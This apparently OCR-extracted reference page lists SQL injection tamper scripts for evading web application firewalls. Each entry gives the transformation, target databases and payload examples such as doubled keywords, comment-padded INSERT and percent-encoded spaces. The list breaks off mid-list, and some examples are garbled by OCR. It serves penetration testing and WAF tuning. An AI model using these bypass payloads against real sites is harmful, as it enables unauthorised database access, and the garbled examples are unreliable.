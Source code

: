 ~~~
1 UNION SELECT 2 — ==> 1 UNION SELESELECTCT 2-
~~~
overlongutf8.py
~~~
Function: unicode encoding
Platform: All
example
SELECT FIELD FROM TABLE WHERE 2>1 ==> SELECT%C0%AAFIELD%C0%AAFROM%C0%AATABLE%C0%AAWHERE%C0%AA2%C0%BE1
~~~
percentage.py
~~~
Function: select ==> s%e%l%e%c%t
Platform: Mssql 2000, 2005、MySQL 5.1.56, 5.5.11、PostgreSQL 9.0
example
SELECT FIELD FROM TABLE ==> %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E
~~~
randomcase.py
~~~
Function: INSERT ==> INseRt
Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
INSERT ==> InseRt
~~~
randomcomments.py
~~~
Function: INSERT ==> I/**/N/**/SERT
Platform: Mysql
example
INSERT ==> I / ** / N / ** / SERT
~~~
securesphere.py
~~~
Function: 1 AND 1=1 ==> 1 AND 1=1 and ‘0having’=’0having’
Platform: All
example
1 AND 1=1 ==> 1 AND 1=1 and ‘0having’=’0having’
~~~
sp_password.py
~~~
Function: Space ==> sp_password
Platform: Mssql
example
1 AND 9227=9227 — ==> 1 AND 9227=9227 — sp_password
~~~
space2comment.py
~~~
Function: Space ==> /**/
Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
SELECT id FROM users ==> SELECT/**/id/**/FROM/**/users
~~~
space2dash.py
~~~
Function: Space==> -nVNaVoPYeva% 0A
Platform:MSSQL、SQLite
example
1 AND 9227=9227 ==> 1 — nVNaVoPYeva%0AAND — ngNvzqu%0A9227=9227
~~~
space2hash.py
~~~
Function: Space ==> %23nVNaVoPYeva%0A
Platform: MySQL 4.0, 5.0
example
1 AND 9227=9227 ==> 1%23nVNaVoPYeva%0AAND%23ngNvzqu%0A9227=9227
~~~
space2morehash.py